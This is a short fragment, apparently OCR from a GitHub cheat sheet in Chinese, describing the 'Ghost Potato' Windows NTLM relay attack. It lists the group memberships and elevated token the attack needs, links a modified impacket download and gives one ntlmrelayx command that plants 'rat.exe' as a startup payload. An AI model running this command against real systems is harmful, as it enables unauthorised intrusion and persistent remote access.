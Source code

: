 	Ghost Potato
	要求：
	用户必须是本地管理员组的成员
	用户必须是 Backup Operators 组的成员
	令牌必须提升
	使用 ntlmrelayx 的修改版本：https ://shenaniganslabs.io/files/impacket-ghostpotato.zip
	>ntlmrelayx -smb2support --no-smb-server --gpotato-startup rat.exe
